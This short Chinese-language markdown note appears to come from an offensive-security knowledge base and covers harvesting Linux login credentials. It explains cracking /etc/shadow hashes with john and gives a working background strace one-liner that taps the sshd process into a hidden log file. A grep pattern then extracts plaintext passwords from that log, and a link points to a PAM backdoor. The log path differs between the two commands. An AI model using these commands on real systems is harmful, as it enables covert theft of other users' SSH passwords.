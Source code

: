 # Linux 认证凭证获取

## 0x01 获取明文密码

### 1. /etc/shadow中hash破解
```
root:$1$aXmGMjXX$MGrR.Hquwr7UVMwOGOzJV0::0:99999:7:::

```

密码域密文由三部分组成，即：$idsalt$encrypted。当id=1，采用md5进行加密，弱口令容易被破解。
当id为5时，采用SHA256进行加密，id为6时，采用SHA512进行加密，可以通过john进行暴力破解。

### 2.利用Strace调试sshd进程抓登录密码
strace命令
```
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/re/.sshd.log &)
```
通过正则可以查询.sshd.log 密码信息:
```
grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log
```
### 3. 替换pam.so抓取登录密码
条件比较苛刻，要适配操作系统和sshd应用版本。

- [Linux PAM后门：窃取ssh密码及自定义密码登录](https://y4er.com/post/linux-backdoor-pam/)

## Ref

-[Linux下登录凭证窃取技巧](https://zyazhb.github.io/2020/09/28/steal-linux/)
